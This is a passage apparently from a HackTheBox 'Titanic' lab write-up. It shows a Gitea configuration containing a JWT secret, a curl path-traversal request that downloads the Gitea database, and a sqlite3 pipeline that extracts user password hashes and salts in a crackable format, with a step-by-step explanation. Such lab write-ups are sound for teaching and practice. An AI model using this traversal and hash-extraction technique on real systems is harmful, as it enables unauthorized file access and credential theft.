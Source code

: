```

[lfs]
PATH = /data/git/lfs

[mailer]
ENABLED = false

[openid]
ENABLE_OPENID_SIGNIN = true
ENABLE_OPENID_SIGNUP = true

[cron.update_checker]
ENABLED = false

[repository.pull-request]
DEFAULT_MERGE_STYLE = merge

[repository.signing]
DEFAULT_TRUST_MODEL = committer

[oauth2]
JWT_SECRET = FIAOKLQX4SBzvZ9eZnHYLTCiVGoBtkE4y5B7vMjzz3g
```


Now, we can see that we have the db file located at `/data/gitea/gitea.db`, we can download this file

```bash
curl "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Now, we can make use of this command to get the user hashes:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

```ad-important
### **Step-by-Step Explanation**

1. **Extract Data from SQLite**
2. 
    `sqlite3 gitea.db "select passwd,salt,name from user"`
    
    - Queries the `user` table in `gitea.db` and returns three columns:
        
        - `passwd`: Password hash (stored as hex).
            
        - `salt`: Salt used for hashing (stored as hex).
            
        - `name`: Username.
            
2. **Process Each Line**
    
    `while read data; do ... done`
    - Loops through each line of the SQL query result (e.g., `hash|salt|username`).
        
3. **Decode the Password Hash**
    
    `digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)`
    
    - `cut -d'|' -f1`: Extracts the first field (`passwd` hex string).
```